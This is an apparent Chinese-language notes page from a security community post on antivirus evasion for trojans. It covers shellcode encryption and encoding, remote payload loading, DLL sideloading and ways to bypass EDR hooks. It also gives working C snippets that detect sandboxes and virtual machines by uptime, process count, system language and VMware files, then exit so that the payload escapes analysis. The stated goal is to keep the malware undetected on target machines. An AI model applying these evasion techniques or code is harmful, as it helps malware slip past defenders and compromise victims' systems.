 [免杀杂谈 - 先知社区](https://xz.aliyun.com/t/13332)

> 免杀的目的并不是说一定要让所有杀毒软件都无法检测，**其实只需要让目标机器无法检测就行了**。

## 免杀方面

论用途而言：
1. 木马免杀
2. 权限维持免杀
3. 工具免杀
4. 其他免杀

论手段而言：
1. 静态免杀
2. 动态免杀 （包括了执行免杀、内存免杀、行为免杀）
3. 流量免杀

论语言而言：
1. c/cpp：快，程序小
2. c#：好用易用
3. go：好用
4. python：只是编写简单
5. java：内存注入、webshell 较多
6. php：webshell 用

## 免杀手段

先说 shellcode

> shellcode是一种地址无关代码，只要给他 EIP 就能够开始运行，由于它不像 PE 有着复杂的结构，因此可以随意变化和复原

- 异或编码：把 shellcode 进行 xor 编码，然后保存到文件中
- AES加密：加密后解密
- 本地载荷读取：东西写在杀毒不扫的文件里面，然后读文件写进内存
- 远程载荷读取：从服务器拿
- 白加黑：没有恶意代码的程序读取有恶意代码的 dll

如下几种加密方式都是常用的:

1. xor 双加密
2. xor加密 + sgn编码
3. xor 加密 +base64编码
4. uuid+base64编码

> 如果加密程度过高，会导致[[文件熵]]过高，也可能报毒
#### 白加黑

> dll加载的顺序：
>1. EXE所在目录；
>2. 当前目录GetCurrentDirectory()；
>3. 系统目录GetSystemDirectory()；
>4. WINDOWS目录GetWindowsDirectory()；
>5. 环境变量 PATH 所包含的目录。

例如：a.dll 在 `%APPDATA%`下，我们编写了修改后的 a.dll，放在主程序的同文件夹。那么程序执行就会读取修改后的 dll

白加黑也有不同形式：
> 白执行黑DLL  
白执行DLL加载shellcode  
白加载shellcode

因此，逆向程序的时候直接找 `loadlibrary()`,`LoadLibraryEx()`，因为通过这个方式加载的进程是动态加载的，就算进程出错 dll 也是已经被加载了的，主程序执行之后就会自动调用

更厉害的是这样的：

> 程序黑 1 调用黑 2，黑 2 调用黑 3。并且会去掉他们的 pe 头文件。总体也就是分段加密，分段解密，在不同的地方解密，不同的地方组装。类似于区块链的去中心化的组装模式，最后再运行。  
> 这样即使提取文件出来，也不会得到全部的数据，对于取证也是具有难度。

## 反沙箱

所有的杀软本地都会有一个内置的沙箱,当我们想要运行一个陌生的 exe 时,杀毒软件都会在沙箱中模拟运行,所有木马能否上线的关键点在于反沙箱

那么沙箱查杀的是什么呢?

1.静态查杀

做好这几样就行：源代码的混淆、资源文件和动态解析 API

2.动态查杀

当你的 exe 在运行是**修改注册表实现自启动**或者是**释放某些文件**亦或是**添加用户** ，此时沙箱会检测此类操作然后报毒

沙箱首先是虚拟出来的系统环境，与真实环境差别很大，所以沙箱也是能被程序认出来的

1. 常规的反沙箱
   我们可以通过延迟执行、开机时间、物理内存、CPU核心数，文件名、磁盘大小、500M 内存 0 填充、用户名、进程名去判断是否是在沙箱的环境中，如果是在沙箱的环境，那就退出

2. 钓鱼的如何写反沙箱
   或者是检测当前环境是否有微信、钉钉、或者鼠标是否移动来判断
接下来给出我常用的反沙箱代码：
- 检测当前操作系统是否超过十分钟,如果没超过就退出
```php
int a(){
    check();
    ULONG uptime = GetTickCount();
    if (uptime >= 10 * 60 * 1000) {
        //MessageBox(NULL, L"程序异常！", L"异常,请稍后", MB_OK | MB_ICONERROR);
    }
    else {
        exit(1);
}
```

- 检测当前环境的进程有没有超过60个,如果没有就退出
因为沙箱的进程一般都少于40个,正常电脑的进程应该很多
```php
void BypassSimulation()
{
    HANDLE snapShot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    if (INVALID_HANDLE_VALUE == snapShot)
    {
        return;
    }
    PROCESSENTRY32 pe = { sizeof(pe) };
    int num = 0;
    for (BOOL ret = Process32First(snapShot, &pe); ret; ret = Process32Next(snapShot, &pe))
    {
        num++;
    }
    if (num <= 60)
    {
        exit(1);
    }
}
```

- 检测发行版本是否为中文

```php
int check() {

    LANGID langId = GetUserDefaultUILanguage();
    if (PRIMARYLANGID(langId) == LANG_CHINESE)
    {
        printf("Chinese");
        RunCode();
    }
    else
    {
        printf("Error");
        exit(1);
    }
    return 0;

}
```

- 检测是否在虚拟机中
```php
int check(char* name) {
    const char* list[4] = { "vmtoolsd.exe","vmwaretrat.exe","vmwareuser.exe","vmacthlp.exe" };
    for (int i = 0; i < 4; i++) {
        if (strcmp(name, list[i]) == 0)
            return -1;
    }
    return 0;
}

bool CheckProcess() {
    PROCESSENTRY32 pe32;
    pe32.dwSize = sizeof(pe32);
    HANDLE hProcessSnap = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    BOOL bResult = Process32First(hProcessSnap, &pe32);
    while (bResult) {
        char ss_Name[MAX_PATH] = { 0 };
        WideCharToMultiByte(CP_ACP, 0, pe32.szExeFile, -1, ss_Name, sizeof(ss_Name),
    NULL, NULL);
        //printf("%s\n", ss_Name);
        if (check(ss_Name) == -1)
            return false;
        bResult = Process32Next(hProcessSnap, &pe32);
    }
    return true;
}

bool checkReg() {
    HKEY hkey;
    if (RegOpenKey(HKEY_CLASSES_ROOT, L"\\Applications\\VMwareHostOpen.exe",
  &hkey) == ERROR_SUCCESS) {
        return true;
    }
    else {
        return false;
    }

}

bool checkfile() {
    WIN32_FIND_DATAW findFileData;
    if (FindFirstFileW(L"C:\\Program Files\\VMware\\VMware Tools\\VMToolsHook.dll", 
  &findFileData) == INVALID_HANDLE_VALUE) 
        return false;
}
```

### 与 EDR/XDR（端点检测与响应）对抗

部分安全产品会 hook `ntdll.dll`，也就是只要调用了 windows api，都会过 EDR

1. 在 shellcode loader 添加大量垃圾函数或者执行一些东西打乱 EDR 查杀
2. 直接通过 syscall 绕过 EDR 的 hook （某数字杀软晶核的环境下依然会被检测到）
3. 重新加载一份干净的 ntdll 文件

## 参考链接

[奇安信攻防社区-【Web实战】先锋马免杀分享](https://forum.butian.net/share/2530)